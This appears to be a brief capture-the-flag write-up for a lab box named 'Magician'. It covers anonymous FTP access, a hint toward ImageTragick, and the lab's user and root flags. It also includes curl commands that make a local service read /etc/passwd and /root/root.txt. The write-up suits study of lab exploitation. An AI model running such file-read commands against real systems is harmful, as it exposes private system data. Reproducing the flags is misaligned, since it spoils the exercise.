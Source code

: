 # Magician 

> VOiD | Thursday 11 November 2021 10:25:17 PM IST

My IP : 10.8.253.221
Target IP : 10.10.247.64

## PORT 21
```bash
ftp 10.10.127.33
Connected to 10.10.127.33.
220 THE MAGIC DOOR
Name (10.10.127.33:void): anonymous
331 Please specify the password.
Password:
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.

```

## PORT 8080 [http]


## PORT 8081 [http]

upload the exploit.png


## USER [Magician]

```bash
magician@magician:~$ cat user.txt 
THM{simsalabim_hex_hex}

magician@magician:~$ cat the_magic_continues 
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.

magician@magician:~$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:6666          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:tproxy          0.0.0.0:*               LISTEN     


curl -X POST localhost:6666 -d "filename=/etc/passwd"
curl -X POST localhost:6666 -d "filename=/root/root.txt"


GUZ{zntvp_znl_znxr_znal_zra_znq}

--> ROT13
```

